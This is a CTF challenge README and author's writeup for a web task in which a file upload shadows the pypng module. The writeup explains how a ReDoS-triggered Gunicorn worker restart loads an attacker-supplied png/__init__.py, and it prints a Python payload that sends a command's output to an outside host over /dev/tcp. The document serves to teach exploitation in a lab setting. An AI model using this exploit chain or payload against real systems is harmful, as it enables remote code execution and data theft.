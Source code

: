 ## Challenge Information

- Name: Images and Words
- Type: Web + Misc
- Description:

```
BGM: [Dream Theater - Images and Words](https://www.youtube.com/watch?v=MkLIJw-fOIQ&list=PL8ANB2FxMC6WnDQDe_MS-OioyR5GEgEvC)
```

- Files provided: All the files under `docker/zeus/app_scaffold/`
- Solves: 0 / 720

## Build

```
docker-compose build
docker-compose up

# attach bash for debugging
docker ps
docker exec -it <CONTAINER ID> bash
```

## Writeup

```
*------------------------------------------------------------------------*
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
|    Spoilers ahead!         Spoilers ahead!          Spoilers ahead!    |
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
*------------------------------------------------------------------------*
```


This web application will render a text file to a PNG image using [pypng](https://github.com/drj11/pypng) library. The user can upload a text file under directory `png`.

The key is to identify the package name `png` happens to be the same as the upload directory name. Therefore, if the directory `png` exists, `import png` will not import the module `pypng`, but `png` in current working directory.

Thus, we can upload the python file named `__init__.py`:

```python
__import__('os').system('bash -c "/readflag>/dev/tcp/bookgin.tw/80"')
```

However, because the web server is using Gunicorn. Gunicorn uses pre-fork worker model to launch workers. The pypng module has already been loaded. Unless we manually reload it or restart the python process, it will not import the file under `png` in current work directory.

In fact, Gunicorn will monitor its worker processes. If the worker is not responsive or stuck somehow, by default [it will await 30 seconds](http://docs.gunicorn.org/en/stable/settings.html#timeout) and then restart the worker. You can notice the process id here is different.

```
[2019-10-07 12:36:04 +0800] [23271] [INFO] Starting gunicorn 19.9.0
[2019-10-07 12:36:04 +0800] [23271] [INFO] Listening at: http://127.0.0.1:8080 (23271)
[2019-10-07 12:36:04 +0800] [23271] [INFO] Using worker: uvicorn.workers.UvicornWorker
[2019-10-07 12:36:04 +0800] [23274] [INFO] Booting worker with pid: 23274
[2019-10-07 12:36:04 +0800] [23274] [INFO] Started server process [23274]
[2019-10-07 12:36:04 +0800] [23274] [INFO] Waiting for application startup.
[2019-10-07 12:37:05 +0800] [23271] [CRITICAL] WORKER TIMEOUT (pid:23274)
[2019-10-07 12:37:06 +0800] [23825] [INFO] Booting worker with pid: 23825
[2019-10-07 12:37:06 +0800] [23825] [INFO] Started server process [23825]
[2019-10-07 12:37:06 +0800] [23825] [INFO] Waiting for application startup.
```

Hence we have to find an approach to make the server stuck for more than 30 seconds. The server source code strictly truncates the filename and file content. Nginx also has also been set a limitation 1M for the uploaded file size. It's too difficult to upload a huge file to make the server stuck. However, in this function:

```python
def sanitize_filename(dangerous_filename):
    print(len(dangerous_filename))
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', dangerous_filename)
    safe_filename = secrets.token_urlsafe(32)[:32] if res is None else dangerous_filename
    return safe_filename
```

The regular expression is vulnerable to [ReDoS](https://en.wikipedia.org/wiki/ReDoS). If we have a file named `aaaaaaaaaaaaaaaaaaaaaa!`, the regular expression will backtrack for a large number of matches. You could try this payload in [regex101](https://regex101.com/r/61PZxD/2). By exploiting this we can make Gunicorn restart the worker process and load our malicious `png/__init__.py`.

One more thing: the server will remove the uploaded text file.

```python
def render(filename):
    src = config.UPLOAD_DIR / filename
    with open(src, 'r') as f:
        text = f.read()
    src.unlink()
    dst = config.UPLOAD_DIR / (filename + '.png')
    with open(dst, 'wb') as f:
        text2image.render(text, f)
```

To exploit, we can upload a non-UTF-8 Python file with [explicit declaration of encoding](https://www.python.org/dev/peps/pep-0263/#id8). Because this line `with open(src, 'r') as f:` does not specify the encoding, it will fail to decode as UTF-8 and throw an exception. Thus the file will not be deleted. Race condition should also work here but it's less stable. The full exploit is in the `exploit` directory.

## Postscript

One day I was writing some Python code, and the directory name happened to conflict with a package name. Then I came out with this idea. For the Gunicorn part, I just need some execution which will take a long time. ReDoS (in fact I heard this on a USENIX conference) quickly flashed through my mind.

Although some techniques seem less useful regarding exploitation, sometimes it becomes a very important part in the RCE chain.

I hope this is a not-so-crafted challenge and hope you enjoy it!
